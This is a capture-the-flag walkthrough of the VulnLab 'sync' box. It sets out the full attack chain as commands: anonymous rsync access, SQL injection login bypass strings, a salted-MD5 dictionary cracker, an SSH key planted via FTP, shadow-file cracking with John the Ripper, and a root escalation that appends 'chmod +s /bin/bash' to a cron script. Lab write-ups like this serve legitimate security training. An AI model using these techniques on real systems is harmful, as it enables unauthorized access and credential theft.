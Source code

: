 ```yaml
---
layout: post
title:  "VulnLab | sync"
description: "walkthrough of sync machine, an easy rated box from VulnLab"
date: "2024-11-15"
pin: true
image:
  path: ../assets/img/ctf/vulnlab/sync/sync1.png
  alt: "sync.vl"
category: "VulnLab"
tags: ["Linux", "rsync", "linux password cracking" ,"scheduled task"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[baby](https://www.vulnlab.com/machines)

------------------------------------------------------------------------------------------


## Enumeration

### All Open Ports
```bash
rustscan -a 10.10.109.129
```
![rustscan](./assets/img/ctf/vulnlab/sync/sync2.png)

### Services Scanning
```bash
nmap -p21,22,80,873 -sC -sV -v -oN sync.full 10.10.109.129
```
```text
# Nmap 7.94SVN scan initiated Tue Nov 12 19:24:04 2024 as: nmap -p21,22,80,873 -sC -sV -oN sync.full 10.10.109.129
Nmap scan report for 10.10.109.129
Host is up (0.047s latency).

PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 de:c3:31:3b:fa:9e:9c:02:20:90:d7:66:9f:22:3c:e8 (ECDSA)
|_  256 14:95:db:f5:fd:46:3f:c8:72:05:ca:6d:0b:3b:fc:92 (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 12 19:24:14 2024 -- 1 IP address (1 host up) scanned in 10.75 seconds
```

### Hostname
```bash
echo '10.10.109.129  sync.vl'  >> /etc/hosts
```

## Foothold

### Port 80
![web](./assets/img/ctf/vulnlab/sync/sync3.png)
![ffuf](./assets/img/ctf/vulnlab/sync/sync4.png)

### Port 873
```bash
rsync sync.vl::
rsync -av --list-only  rsync://sync.vl/httpd 
```
![rsync](./assets/img/ctf/vulnlab/sync/sync5.png)

```bash
rsync -av rsync://sync.vl/httpd ./rsyn_shared
```
![rsync](./assets/img/ctf/vulnlab/sync/sync6.png)

```sql
sqlite3 site.db
select * from users;
```
![rsync](./assets/img/ctf/vulnlab/sync/sync7.png)
```php
$username = $_POST['username'];
$password = $_POST['password'];

$hash = md5("$secure|$username|$password");
$db = new SQLite3('../db/site.db');
$result = $db->query("SELECT * FROM users WHERE username = '$username' AND password= '$hash'");

$row = $result->fetchArray(SQLITE3_ASSOC);
```

```text
admin' or 1=1-- -
triss' or 1=1-- -
```
![rsync](./assets/img/ctf/vulnlab/sync/sync8.png)
```python
import hashlib

secure = "6c4972f3717a5e881e282************"
username = "triss"
hash_to_crack = "a0de4d7f81676c3ea**********"
known_string = f"{secure}|{username}|"

def generate_md5_hash(password):
    full_string = known_string + password
    return hashlib.md5(full_string.encode()).hexdigest()
    
def dictionary_attack(wordlist):
    with open(wordlist, 'r') as file:
        for line in file:
            password = line.strip()
            if generate_md5_hash(password) == hash_to_crack:
                print(f"Password found: {password}")
                return password
    print("Password not found in wordlist.")
    return None
```
![triss password](./assets/img/ctf/vulnlab/sync/sync9.png)

### Port 21
```bash
ftp sync.vl
```
![ftp](./assets/img/ctf/vulnlab/sync/sync10.png)

```sh
ssh-keygen
cp id_rda.pub authorized_keys
mkdir .ssh
cd .ssh
put authorized_keys
```
![authorized_keys](./assets/img/ctf/vulnlab/sync/sync11.png)

### Port 22
```bash
chmod 600 id_rsa
ssh -i id_rsa triss@sync.vl
```
![ssh](./assets/img/ctf/vulnlab/sync/sync12.png)


## Privilege Escalation
```text
> linpeas output

/usr/local/bin/backup.sh 
/backup

> pspy64 output
```
![ssh](./assets/img/ctf/vulnlab/sync/sync13.png)

```bash
> /usr/local/bin/backup.sh content

#!/bin/bash
mkdir -p /tmp/backup
cp -r /opt/httpd /tmp/backup
cp /etc/passwd /tmp/backup
cp /etc/shadow /tmp/backup
cp /etc/rsyncd.conf /tmp/backup
zip -r /backup/$(date +%s).zip /tmp/backup
rm -rf /tmp/backup
```

```bash
unzip -d data data.zip
cp data/tmp/backup/passwd passwd.txt
cp data/tmp/backup/shadow shadow.txt
unshadow passwd.txt shadow.txt  > unshadowed.txt
```
![data.zip](./assets/img/ctf/vulnlab/sync/sync14.png)

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
![jtr](./assets/img/ctf/vulnlab/sync/sync15.png)

```bash
su sa
id
```
![sa](./assets/img/ctf/vulnlab/sync/sync16.png)

```bash
ls -la /usr/local/bin/backup.sh 
echo 'chmod +s /bin/bash'  >> /usr/local/bin/backup.sh 
```
![backup.sh](./assets/img/ctf/vulnlab/sync/sync17.png)
```sh
ls -la /bin/bash
/bin/bash -p
```
![root](./assets/img/ctf/vulnlab/sync/sync17.png)


## Kill Chain Summary
1. rsync anonymous access.
2. reading the registration code understand the hashing mechanism and crack triss password.
3. using triss creds access the ftp server.
4. tris have write permission abuse this and add a public key to `.ssh/authorized_keys`.
5. connect to the box trought ssh as triss.
6. crack linux password (sa and jennifer) found in `/backup/date.zip`.
7. abuse the root task running `/usr/local/bin/backup.sh` since we as `sa` has write permission on `/usr/local/bin/backup.sh`.
8. NB: Someone could using ``hydra` brute force `sa` password since it's very weak and then skip step 1 to 5.


## References
[rsync](https://hackviser.com/tactics/pentesting/services/rsync)<br>
[jtr shadow cracking](https://www.mohammedalani.com/tutorials/cracking-a-shadow-password-using-john-the-ripper/)
